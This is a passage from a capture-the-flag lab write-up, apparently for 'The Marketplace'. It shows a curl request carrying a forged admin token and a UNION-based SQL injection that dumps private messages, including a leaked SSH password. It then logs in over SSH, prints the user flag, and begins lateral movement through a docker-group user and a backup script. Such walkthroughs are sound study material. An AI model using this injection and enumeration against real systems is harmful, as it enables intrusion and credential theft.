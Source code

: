 ~~~
$ curl -s --cookie "token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2MjE2NzQ1NjN9.SZDjFMO2_KIMpIoLWuD5Zt3fKggTM8AoTS7plL32uig" \
http://10.10.4.48/admin?user=`urlencode "0 UNION SELECT 1,GROUP_CONCAT(message_content),3,4 FROM marketplace.messages"` | tail
      <div>
          User Hello!
An automated system has detected your SSH password is too weak and needs to be changed. You have been generated a new temporary password.
Your new password is: @b_ENXkGYUCAv3zJ,Thank you for your report. One of our admins will evaluate whether the listing you reported breaks our guidelines and will get back to you via private message. Thanks for using The Marketplace!,Thank you for your report. One of our admins will evaluate whether the listing you reported breaks our guidelines and will get back to you via private message. Thanks for using The Marketplace!,Thank you for your report. We have reviewed the listing and found nothing that violates our rules.,Thank you for your report. We have been unable to review the listing at this time. Something may be blocking our ability to view it, such as alert boxes, which are blocked in our employee&#39;s browsers. <br />
          ID: 1 <br />
          Is administrator: true <br />
       <button onclick="this.disabled = true">Delete user</button>
      </div>
  </body>
</html>
~~~

We have a password: `@b_ENXkGYUCAv3zJ`

## Connect as jake

We can now connect as `jake` with the password found just above against the SSH service.

~~~
jake@the-marketplace:~$ cat user.txt 
THM{c3648ee7af1369676e3e4b15da6dc0b4}
~~~

# What is flag 3? (Root.txt)

## Lateral move (jake -> michael)

Checking the other users reveals that it may be interesting to move to `michael`, as he his in a `docker` group:

~~~
jake@the-marketplace:~/tmp$ id michael
uid=1002(michael) gid=1002(michael) groups=1002(michael),999(docker)
~~~

Searching for files owned by `michael` will reveal an interesting `backup.sh` script:

~~~
jake@the-marketplace:/home/marketplace$ find / -type f -user michael -exec ls -l {} + 2>/dev/null
-rw-r--r-- 1 michael michael  220 Aug 23  2020 /home/michael/.bash_logout
-rw-r--r-- 1 michael michael 3771 Aug 23  2020 /home/michael/.bashrc
-rw-r--r-- 1 michael michael  807 Aug 23  2020 /home/michael/.profile
-rwxr-xr-x 1 michael michael   73 Aug 23  2020 /opt/backups/backup.sh
~~~
